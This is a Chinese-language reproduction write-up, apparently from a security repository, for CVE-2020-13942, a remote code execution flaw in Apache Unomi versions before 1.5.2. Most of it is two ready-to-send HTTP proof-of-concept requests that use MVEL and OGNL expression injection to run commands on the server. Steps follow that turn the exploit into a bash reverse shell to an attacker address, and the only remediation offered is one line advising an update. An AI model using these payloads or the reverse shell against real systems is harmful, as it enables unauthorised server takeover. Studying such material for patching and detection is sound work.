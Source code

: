 # Apache Unomi远程代码执行漏洞复现-CVE-2020-13942

## 简介

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

**CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，并在服务器执行任意代码**

## 影响版本

> Apache Unomi <1.5.2

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

有两种利用方式：

- 通过MVEL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 483
  
  {
      "filters": [
          {
              "id": "sample",
              "filters": [
                  {
                      "condition": {
                           "parameterValues": {
                              "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 79jk3a.dnslog.cn\");"
                          },
                          "type": "profilePropertyCondition"
                      }
                  }
              ]
          }
      ],
      "sessionId": "sample"
  }
  ```

- 通过OGNL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 1064
  
  {
    "personalizations":[
      {
        "id":"gender-test",
        "strategy":"matching-first",
        "strategyOptions":{
          "fallback":"var2"
        },
        "contents":[
          {
            "filters":[
              {
                "condition":{
                  "parameterValues":{
                    "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"ping 79jk3a.dnslog.cn\"))",
                    "comparisonOperator":"equals",
                    "propertyValue":"male"
                  },
                  "type":"profilePropertyCondition"
                }
              }
            ]
          }
        ]
      }
    ],
    "sessionId":"sample"
  }
  ```

1. 运行如下命令启动一个Apache Unomi 1.5.1的服务器：`docker-compose up -d`

   ![640](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640.png)

2. 直接在首页抓包，把内容替换成上面任意一种POC即可

   目标出网测试

   ![640 (1)](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640 (1).png)

3. 进行反弹shell，将`bash -i >& /dev/tcp/192.168.1.41/7777 0>&1`进行编码，地址：http://www.jackson-t.ca/runtime-exec-payloads.html

   ![640 (2)](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640 (2).png)

4. 获取shell

   ![640 (3)](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640 (3).png)

## 修复建议

更新最新版本